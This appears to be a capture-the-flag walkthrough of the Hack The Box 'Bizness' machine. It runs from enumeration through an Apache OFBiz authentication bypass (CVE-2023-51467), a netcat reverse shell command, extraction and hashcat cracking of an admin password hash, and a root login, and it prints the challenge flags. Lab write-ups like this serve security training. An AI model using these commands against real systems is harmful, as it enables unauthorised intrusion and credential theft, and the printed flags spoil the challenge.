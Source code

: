 # Buziness

> IP: [10.10.11.252]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.10.11.252 -oN init_scan
      1. Port 22 -> ssh
      2. Port 80 -> http
         1. http-title: Did not follow redirect to https://bizness.htb/
            1. Need to add this to my /etc/hosts
      3. Port 443 -> ssl
3. HTTP
   1. Navigate to website
   2. Looking through source code it looks pretty normal
   3. DIRB
      1. /accounting
         1. This redirects to /control/main
            1. This is a login screen
            2. At the bottom we see this is using "Apache OFBiz. Release 18.12"
4. RESEARCH
   1. We see there is a CVE-2023-51467 -> which shows an authentication bypass vulnerability
      1. It looks like it revolves around /webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y"
         1. Lets test this
            1. URL: https://bizness/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y
            2. RESPONSE: PONG
            3. So it looks like this is vulnerable
   2. Looking further into the CVE
      1. We see that we can exploit the /webtools/control/xmplrpc
5. CVE
   1. We see there is an authentication bypass tool on github
      1. LINK: "https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git"
      2. Lets pull down this tool and run it
   2. EXPLOIT
      1. We know the tool allows for two main options
         1. Scanning -> to see if the app is vulnerable (which we already proved earlier it was)
         2. Command -> to run commands
      2. Lets setup a revshell command
         1. > nc -e /bin/bash MY_IP_ADDR 1234
      3. RUN TOOL
         1. > python3 exploit.py --url https://bizness.htb --cmd 'nc -e MY_IP_ADDR 10.10.14.251 1234'
            1. SUCCESS!
            2. Stabilize shell
6. ENUMERATION
   1. Check user home directories
      1. > ls /home
         1. obfiz
      2. > ls /home/obfiz
      3. > cat /home/obfiz/user.txt
         1. FLAG: `747dae576cd60a53d64b5d9cc000e779`
   2. LINPEAS
      1. /etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
         1. Our path isn't editable though
      2. -rwxr-sr-x 1 root tty 23K Jan 20  2022 /usr/bin/write.ul (Unknown SGID binary)
         1. No luck
   3. Manual Enumeration
      1. Lets search fro any admin files
         1. > find / -name *Admin* 2>/dev/null
            1. /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
            2. Lets go check this out
               1. > cat ../AdminUserLoginData.xml

                    ```xml
                        <entity-engine-xml>
                            <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
                            <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
                        </entity-engine-xml>
                    ```

                    1. In here it looks like there is a user and a hashed password - however this is only half
   4. RESEARCH
      1. We found out that ofbiz uses apache derby database - and these files are stored as .dat
         1. Lets look for .dat files
            1. > find / -type -name *.dat
               1. We see there are thousands in the "/opt/ofbiz/runtime/data/derby/ofbiz/seg0" directory
               2. We will definitely need a way to weed out of these
                  1. > grep -r "password" . -i
                     1. c6010.dat
                     2. c6850.dat
                     3. c5fa1.dat
                     4. c180.dat
                     5. c54d0.dat
                     6. ca1.dat
                     7. c6021.dat
                     8. c60.dat
                     9. c5f90.dat
                     10. c191.dat
                     11. c90.dat
                     12. c71.dat
                     13. c1930.dat
                     14. c1c70.dat
               3. This narrows it down so lets start looking at the files
                  1. In c54d0.dat we see the line "currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I""
                  2. Now we have a password to crack
7. CRACK THE HASH
   1. First need to reverse the base64.urlsafe_b64encode() function
      1. CYBERCHEF -> FROM BASE64 -> TO HEX (NO SPACES) -> "b8fd3f41a541a435857a8f3e751cc3a91c174362"
      2. Now we just need to add the :d as that was our original salt
   2. HASHCAT
      1. > hashcat -m 120 'b8fd3f41a541a435857a8f3e751cc3a91c174362:d' /opt/rockyou.txt
         1. RESPONSE: `monkeybizness`
8. ESCALATE
   1. Now lets try switching users
      1. > su root
         1. PW: monkeybizness
         2. SUCCESS!
   2. GET FLAG:
      1. > cat /root/root.txt
         1. FLAG: `c835d95824f3998427d24db6ffa778b6`

## QUESTIONS

1. User Flag
   1. `747dae576cd60a53d64b5d9cc000e779`
2. Root Flag
   1. `c835d95824f3998427d24db6ffa778b6`
